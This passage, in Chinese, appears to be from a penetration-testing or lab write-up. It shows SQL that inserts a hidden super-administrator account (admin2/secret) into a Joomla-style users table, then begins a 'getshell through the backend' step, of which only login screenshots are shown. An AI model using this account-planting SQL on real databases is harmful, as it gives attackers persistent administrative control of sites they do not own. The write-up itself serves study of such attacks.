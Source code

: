 根据文档给出的信息，这里有两种解决办法：

1. 用官方给出的sql语句添加一个管理员账户
2. 将原来的加密密码替换成文档给的加密值

执行 sql 语句在数据库中添加 admin2/secret 超级管理员，注意要先把sql 语句修改为目标数据表的前缀。

```sql
INSERT INTO `am2zu_users`
    (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`) VALUES ('Administrator2', 'admin2',
     'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW()); 
INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`) VALUES (LAST_INSERT_ID(),'8');
```



## 3.进入后台getshell

使用刚才添加的管理员登录后台

![img](assets/1685433590861-99848ab4-0992-4084-9c00-583aa46458a2-170339517269331.png)

成功进入后台

![img](assets/1685433939117-388fa7ad-1c13-4df6-a6f9-d9cb2150c2f1-170339517269333.png)
